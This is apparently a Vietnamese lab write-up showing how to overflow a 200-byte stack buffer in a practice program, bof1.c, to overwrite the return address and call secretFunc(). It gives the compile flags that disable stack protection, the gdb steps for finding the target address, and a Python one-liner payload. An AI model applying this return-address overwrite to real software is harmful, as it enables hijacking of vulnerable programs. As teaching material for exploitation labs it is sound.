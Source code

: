 ### Chi tiết Buffer-overflow trên file bof1.c
***
#### Mục đích của bài này là dùng buffer-overflow để gọi được hàm secretFunc()
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm get(array) của hàm vuln(). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến array xuống phần return address và cái phần được tràn vào return adddres là địa chỉ của hàm secretFunc() thì lúc đó hàm secretFunc() sẽ được gọi


![image](https://github.com/user-attachments/assets/061f6e08-a811-4b5e-9e22-e625c0b706a3)
***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm secretFunc()

  Vào gdb:
  ```
  qdb -q bof1.out  
  ```
  Xem địa chỉ hàm
  ```
  disas secretFunc
  ```
  ![image](https://github.com/user-attachments/assets/3c883274-5ee1-44a6-a82a-c0161b96d775)

  => Địa chỉ hàm secretFunc() là 0x0804846b
* Bước 3: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/4d515abb-0962-408a-912b-f1e2d36ce6b2)


  ta thấy mảng array chứa tối đa 200 bytes và ebp là 4 bytes nên ta cần truyền vào input 204 kí
  tự ngẫu nhiên và truyền thêm 4 bytes địa chỉ hàm secretFunc() nữa để đè lên return addr là ta có thể gọi hàm này
* Bước 4: Thực hiện truyền input
  ```
  echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/eea0cbe7-a3a0-48b8-b9bc-8d79118d33b2)

  => Thành công
